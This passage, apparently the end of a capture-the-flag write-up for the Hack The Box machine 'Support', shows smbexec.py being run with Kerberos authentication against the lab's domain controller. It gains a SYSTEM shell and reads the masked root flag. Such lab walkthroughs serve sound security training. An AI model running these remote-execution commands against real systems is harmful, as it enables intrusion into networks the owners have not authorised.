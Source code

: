 Once connected we can check what account we are controlling and we see that we are indeed logged in as the *system* account. Navigate around and find any files of interest. The root flag can be found at ‘C:\\Users\\administrator\\Desktop\\root.txt’

```text-plain
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k


C:\Windows\system32>whoami
nt authority\system


C:\Windows\system32>dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 955A-5CBB

 Directory of c:\users\administrator\desktop

05/28/2022  04:17 AM   <DIR>          .
05/28/2022  04:11 AM   <DIR>          ..
04/03/2023  03:40 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,963,105,280 bytes free

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
HTB{********************************}
```

Congratulations on completing this machine! Happy Hunting.
